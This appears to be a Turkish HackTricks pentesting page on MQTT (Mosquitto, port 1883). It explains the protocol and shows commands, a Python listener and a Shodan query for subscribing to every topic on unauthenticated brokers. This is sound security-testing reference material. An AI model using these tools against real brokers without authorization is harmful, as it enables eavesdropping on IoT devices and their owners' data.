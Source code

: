 # 1883 - MQTT (Mosquitto) Pentesting

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**'u takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Temel Bilgiler

**MQ Telemetry Transport (MQTT)**, aşırı basitlik ve hafiflik açısından öne çıkan bir **yayın/abone mesajlaşma protokolü** olarak bilinir. Bu protokol özellikle, cihazların sınırlı kapasitelere sahip olduğu ve düşük bant genişliği, yüksek gecikme süresi veya güvenilir olmayan bağlantılarla karakterize edilen ağlarda çalıştığı ortamlar için özel olarak tasarlanmıştır. MQTT'nin temel hedefleri arasında ağ bant genişliğinin kullanımını en aza indirgeme ve cihaz kaynaklarına olan talebi azaltma yer alır. Ayrıca, güvenilir iletişimi sürdürmeyi ve belirli bir teslimat güvencesi düzeyi sağlamayı amaçlar. Bu hedefler, MQTT'yi **makine-makine (M2M) iletişimi** ve **Nesnelerin İnterneti (IoT)** alanı için son derece uygun hale getirir, burada birçok cihazın verimli bir şekilde bağlanması esastır. Ayrıca, MQTT, bant genişliğini ve pil ömrünü korumanın önemli olduğu mobil uygulamalar için son derece faydalıdır.

**Varsayılan port:** 1883
```
PORT     STATE SERVICE                 REASON
1883/tcp open  mosquitto version 1.4.8 syn-ack
```
## Trafik İnceleniyor

MQTT brokerları tarafından bir **CONNECT** paketi alındığında, bir **CONNACK** paketi geri gönderilir. Bu paket, bağlantı durumunu anlamak için önemli olan bir dönüş kodu içerir. **0x00** dönüş kodu, kimlik bilgilerinin kabul edildiğini ve başarılı bir bağlantıyı gösterir. Öte yandan, **0x05** dönüş kodu, kimlik bilgilerinin geçersiz olduğunu ve dolayısıyla bağlantının engellendiğini belirtir.

Örneğin, broker, geçersiz kimlik bilgileri nedeniyle bağlantıyı reddederse, senaryo şöyle görünecektir:
```
{
"returnCode": "0x05",
"description": "Connection Refused, not authorized"
}
```
![](<../.gitbook/assets/image (973).png>)

### [**Brute-Force MQTT**](../generic-methodologies-and-resources/brute-force.md#mqtt)

## MQTT Pentesting

**Kimlik doğrulama tamamen isteğe bağlıdır** ve hatta kimlik doğrulaması yapılıyorsa **varsayılan olarak şifreleme kullanılmaz** (kimlik bilgileri düz metin olarak gönderilir). MITM saldırıları hala gerçekleştirilerek şifreler çalınabilir.

MQTT hizmetine bağlanmak için şu adımları kullanabilirsiniz: [https://github.com/bapowell/python-mqtt-client-shell](https://github.com/bapowell/python-mqtt-client-shell) ve tüm konulara kendinizi abone yapabilirsiniz:
```
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"
```
Ayrıca [**https://github.com/akamai-threat-research/mqtt-pwn**](https://github.com/akamai-threat-research/mqtt-pwn) adresini kullanabilirsiniz.
```bash
apt-get install mosquitto mosquitto-clients
mosquitto_sub -t 'test/topic' -v #Subscribe to 'test/topic'
mosquitto_sub -h <host-ip> -t "#" -v #Subscribe to ALL topics.
```
Ya da bu kodu çalıştırabilirsiniz **kimlik doğrulaması olmadan bir MQTT servisine bağlanmayı denemek için, her konuya abone olabilir ve onları dinleyebilirsiniz**:
```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
client.subscribe('#', qos=1)
client.subscribe('$SYS/#')

def on_message(client, userdata, message):
print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message
client.connect(HOST, PORT)
client.loop_start()
#time.sleep(10)
#client.loop_stop()

if __name__ == "__main__":
main()
```
## Daha Fazla Bilgi

buradan: [https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b](https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b)

### Yayın/Abone Olma Modeli <a href="#b667" id="b667"></a>

Yayın/abone olma modeli şunlardan oluşur:

- **Yayıncı**: bir mesajı broker'daki bir veya birden fazla konuya yayınlar.
- **Abone**: broker'daki bir veya birden fazla konuya abone olur ve yayıncıdan gönderilen tüm mesajları alır.
- **Broker**: yayıncılardan gelen tüm mesajları abonelere yönlendirir.
- **Konu**: bir veya daha fazla seviyeden oluşur ve bir ileri eğik çizgi ile ayrılır (örneğin, /smartshouse/livingroom/temperature).

### Paket Formatı <a href="#f15a" id="f15a"></a>

Her MQTT paketi sabit bir başlık içerir (Şekil 02). Şekil 02: Sabit Başlık

![https://miro.medium.com/max/838/1\*k6RkAHEk0576geQGUcKSTA.png](https://miro.medium.com/max/838/1\*k6RkAHEk0576geQGUcKSTA.png)

### Paket Türleri

- CONNECT (1): İstemci tarafından sunucuya bağlantı istemek için başlatılır.
- CONNACK (2): Başarılı bir bağlantının sunucu tarafından onaylanması.
- PUBLISH (3): İstemciden sunucuya veya tersine bir mesaj göndermek için kullanılır.
- PUBACK (4): Bir PUBLISH paketinin onaylanması.
- PUBREC (5): Mesajın alındığından emin olmak için bir iletişim protokolünün parçası.
- PUBREL (6): Mesaj iletiminde daha fazla güvence sağlayarak bir mesajın serbest bırakılmasını gösterir.
- PUBCOMP (7): İletişim protokolünün final kısmı, tamamlamayı gösterir.
- SUBSCRIBE (8): Bir istemcinin bir konudan mesajları dinlemek için isteği.
- SUBACK (9): SUBSCRIBE isteğinin sunucu tarafından onaylanması.
- UNSUBSCRIBE (10): Bir istemcinin bir konudan mesaj almaya son vermek için isteği.
- UNSUBACK (11): UNSUBSCRIBE isteğine sunucunun yanıtı.
- PINGREQ (12): İstemci tarafından gönderilen bir kalp atışı mesajı.
- PINGRESP (13): Sunucunun kalp atışı mesajına yanıtı.
- DISCONNECT (14): Bağlantıyı sonlandırmak için istemci tarafından başlatılır.
- 0 ve 15 olarak işaretlenen iki değer yasaklanmıştır ve kullanılmaları yasaktır.

## Shodan

- `port:1883 MQTT`

<details>

<summary><strong>Sıfırdan kahraman olacak şekilde AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi Twitter'da 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live) takip edin.
- **Hacking püf noktalarınızı göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek paylaşın.

</details>
